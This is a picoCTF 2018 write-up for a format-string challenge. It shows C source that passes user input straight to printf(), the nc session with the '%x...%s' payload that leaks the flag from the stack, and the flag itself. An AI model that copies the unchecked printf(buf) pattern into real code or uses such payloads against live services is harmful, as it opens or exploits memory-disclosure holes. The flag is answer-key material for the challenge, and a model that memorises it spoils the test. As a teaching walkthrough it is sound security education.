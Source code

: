 ## Question
>This program prints any input you give it. Can you [leak](//2018shell.picoctf.com/static/6375831141cee444f733bb8874516f3d/echo) the flag? Connect with `` nc 2018shell.picoctf.com 3981 ``. [Source](//2018shell.picoctf.com/static/6375831141cee444f733bb8874516f3d/echo.c).

### Hint
>If only the program used puts...

## Solution
Opening the source code we can see that a dangerous attacker-controlled buffer is passed to `printf()`:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  char flag[64];
  char *flag_ptr = flag;
  
  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  memset(buf, 0, sizeof(flag));
  memset(buf, 0, sizeof(buf));

  puts("Time to learn about Format Strings!");
  puts("We will evaluate any format string you give us with printf().");
  puts("See if you can get the flag!");
  
  FILE *file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  
  fgets(flag, sizeof(flag), file);
  
  while(1) {
    printf("> ");
    fgets(buf, sizeof(buf), stdin);
    printf(buf);
  }  
  return 0;
}
```
When using format strings the function `printf()` looks for an argument for each format string, when no argument is give - the program is tricked to keep browsing addresses in the stack ([we learned before from assembly subroutines that c functions are given arguments using the stack](https://github.com/jugges/picoctf-2018-writeup/tree/master/Reversing/assembly-0)).
```bash
~$ nc 2018shell.picoctf.com 3981
Time to learn about Format Strings!
We will evaluate any format string you give us with printf().
See if you can get the flag!
> %x%x%x%x%x%x%s
40f779a5a08048647f77d3a741f77aa490
> %x%x%x%x%x%x%x%s
40f779a5a08048647f77d3a741f77aa490fff1f234picoCTF{foRm4t_stRinGs_aRe_DanGer0us_36de83c4}
```
So in order to leak the flag we will just climb up the stack using `%x` which outputs hex value and print the last stack inquery we bump into using `%s`.

[For a table of format string specifiers & outputs](https://www.tutorialspoint.com/c_standard_library/c_function_printf.htm)

[For more reading on the subject of format string exploits](http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html)
### Flag
`picoCTF{foRm4t_stRinGs_aRe_DanGer0us_36de83c4}`
